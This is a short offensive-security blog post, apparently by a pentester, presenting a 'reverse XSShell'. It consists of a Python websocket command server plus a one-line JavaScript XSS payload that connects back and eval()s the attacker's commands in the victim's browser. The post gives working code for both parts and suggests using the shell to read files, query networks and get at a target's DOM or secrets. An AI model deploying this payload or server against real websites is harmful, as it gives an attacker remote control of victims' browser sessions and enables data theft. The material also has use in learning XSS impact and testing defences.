

# The initial idea

While auditing a website, I found out they were using websockets to transmit data. I didn't kow much about it so I had to [ReadTheFancyManual](https://rtfm.re/). Once I understood that it was... Well... A socket one could use with web technologies, I asked myself "What do I usually do with sockets?"

Tunnels! Transfer files! Or... Spawn reverse shells?!

Or... Spawn a reverse XSShell??


# What do we need?

## A websocket server

```python
import asyncio
import websockets


async def hello(websocket, path):
    print("WebSocket received")

    while True:
        cmd = input("cmd > ")
        await websocket.send(cmd)
        print(f"sent: {cmd}")

        out = await websocket.recv()
        print(f"out : {out}\n")

start_server = websockets.serve(hello, "localhost", 8080)

asyncio.get_event_loop().run_until_complete(start_server)
asyncio.get_event_loop().run_forever()
```

## Some javascript to connect back

- Readable version

```javascript
var socket = new WebSocket("ws://localhost:8080/");

socket.onopen = function() {
  console.log("Connected!");
};

socket.onmessage = function(event) {
  console.log("Cmd received", event.data);
  socket.send(eval(event.data));
  // socket.close();
};
```

- Actual payload I use

```javascript
s=new WebSocket("ws://localhost:8080/"),s.onmessage=function(ev){try{s.send(eval(ev.data))}catch(e){s.send(e)}};
```

## An html page to execute the payload

> Who cares about html anyway?

## In short

You can find the code here: https://gitlab.com/TheLaluka/ctf_utils/-/tree/master/web/websocket_xss

And what this gives us is a reverse shell in a javascript (browser / renderer) context. What you can do from here is up to you.. Try to read files, query the network, mess with your target's DOM or secrets... Have fun ! :)

# Demo




# Limitations

- You still need an xss with little restrictions (use eval, long payload, ...)
- The reverse xsshell can be blocked on its way back by a firewall / proxy / SOP / CSP / ...
- Blocking actions (alert, prompt, redirect, ...) will break the current shell (trig xss again!)


# Appendix

Once again, after spending some time experimenting a new idea, I start google it and... Well, it's not _really_ something new. It's just about re-discovering [what others found before](https://github.com/raz-varren/xsshell). That being said, I love one-liners and keeping things as simple as possible, so it's not the same-same.. :)


